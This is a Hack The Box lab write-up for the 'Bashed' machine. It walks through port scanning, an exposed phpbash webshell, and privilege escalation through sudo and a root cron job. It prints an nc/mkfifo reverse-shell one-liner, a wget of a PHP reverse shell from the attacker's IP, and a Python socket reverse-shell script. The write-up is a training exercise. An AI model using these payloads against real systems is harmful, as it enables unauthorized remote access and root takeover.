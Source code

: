 # Bashed - hack the box

[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http serve.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http serve and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduces the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. Try to access `http://10.10.10.68/uploads/phpbash.php`. But the file seems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be return. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)

## Privilege escalation

Obtain the user permission is quite easy, and it is not difficult to obtain the root permission. Utilize `sudo -l` to see the permissions of the user. Something interesting found. We can switch to `scriptmanager` user without password.

![Ag4cn0.png](https://s2.ax1x.com/2019/04/04/Ag4cn0.png)

```
su -u scrriptmanager bash -i
```

Try to enumerate the files. And I find an interesting folder inside `/script`. There are two files test.py and test.txt. Try to display the content of `test.py`.

[![AghxO0.png](https://s2.ax1x.com/2019/04/04/AghxO0.png)](https://imgchr.com/i/AghxO0)

The python script is quite straightforwared. It just write `testing 123!` to the file `test.txt`. And if we see the attributes of `test.txt`, the modified time of the file changes each minute. And the file is owned by root. It seems that `root` will execute the python scripts in `/script` folder each minute. So utilize a python script to reverse the root shell(accordint to the information above, the python version of the target machine is 2.7):

```python 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.44",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Set the kali to listen to port 4444. Download the python script in the target machine and execute. Now, root shell is obtained.

![AgICRJ.png](https://s2.ax1x.com/2019/04/04/AgICRJ.png)

[![AgIks1.png](https://s2.ax1x.com/2019/04/04/AgIks1.png)](https://imgchr.com/i/AgIks1)




